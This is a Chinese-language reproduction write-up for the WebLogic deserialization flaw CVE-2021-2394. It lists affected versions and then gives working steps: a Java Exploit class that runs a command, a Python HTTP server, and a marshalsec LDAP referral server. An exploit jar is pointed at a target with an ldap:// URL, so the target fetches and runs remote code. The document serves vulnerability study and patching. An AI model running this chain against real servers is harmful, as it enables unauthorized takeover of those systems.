



Weblogic 二次反序列化漏洞 CVE-2021-2394¶
漏洞描述¶
Oracle官方发布了2021年7月份安全更新通告，通告中披露了WebLogic组件存在高危漏洞，攻击者可以在未授权的情况下通过IIOP、T3协议对存在漏洞的WebLogic Server组件进行攻击。成功利用该漏洞的攻击者可以接管WebLogic Server。
这是一个二次反序列化漏洞，是CVE-2020-14756和CVE-2020-14825的调用链相结合组成一条新的调用链来绕过weblogic黑名单列表。
漏洞影响¶
Oracle WebLogic Server 10.3.6.0.0
Oracle WebLogic Server 12.1.3.0.0
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
环境搭建¶
系统环境：window10 系统
weblogic 版本：12.2.1.3，官网下载

在当前目录启动，启动后访问：

漏洞复现¶
下载 marshalsec 利用 marshalsec 开启 JNDI 服务：
https://github.com/mbechler/marshalsec # 需要自己编译
mvn clean package –DskipTests
https://github.com/RandomRobbieBF/marshalsec-jar # 可以直接使用
创建 Exploit.java，通过 javac 编译得到 Exploit.class：
public class Exploit {
static {
System.err.println("Pwned");
try {
String cmds = "calc";
Runtime.getRuntime().exec(cmds);
} catch ( Exception e ) {
e.printStackTrace();
}
}
}
在同目录下使用 python 开启一个 http 服务，并使用 marshalsec 开启 JNDI 服务：
python -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
使用exp进行复现：
java -jar CVE_2021_2394.jar 192.168.31.3 7001 ldap://192.168.3.35:8087/Exploit

修复方式¶
当前官方已发布受影响版本的对应补丁，建议受影响的用户及时更新官方的安全补丁。链接如下：